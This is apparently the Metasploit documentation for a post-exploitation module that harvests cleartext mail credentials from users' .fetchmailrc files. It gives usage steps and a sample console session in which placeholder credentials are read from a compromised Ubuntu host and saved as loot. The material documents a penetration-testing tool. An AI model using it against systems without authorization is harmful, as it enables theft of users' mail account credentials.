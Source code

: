 ## Vulnerable Application

Post module to obtain credentials saved for IMAP, POP and other mail
retrieval protocols in fetchmail's `.fetchmailrc`.

This file is kept in user's home directories to configure fetchmail,
but contains cleartext credentials.

### Example fetchmailrc file

Example documentation can be found in the fetchmail handbook:
https://docs.freebsd.org/doc/6.0-RELEASE/usr/share/doc/handbook/mail-fetchmail.html#:~:text=fetchmailrc%20serves%20as%20an%20example,user%20on%20the%20local%20system.

```
echo "poll example.com protocol pop3 username \"joesoap\" password \"XXX\"" > ~/.fetchmailrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/fetchmailrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.fetchmailrc` files exist with credentials, they will be read and stored into a loot file.

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf6 auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/fetchmailrc_creds
msf6 post(multi/gather/fetchmailrc_creds) > set session 1
session => 1
msf6 post(multi/gather/fetchmailrc_creds) > run

[*] Parsing /home/ubuntu/.fetchmailrc
                
.fetchmailrc credentials
========================

 Username  Password  Server       Protocol  Port
 --------  --------  ------       --------  ----
 joesoap   XXX       example.com  pop3

[*] Credentials stored in: /root/.msf4/loot/20221008102916_default_1.1.1.1_fetchmailrc.cred_476989.txt
[*] Post module execution completed
```
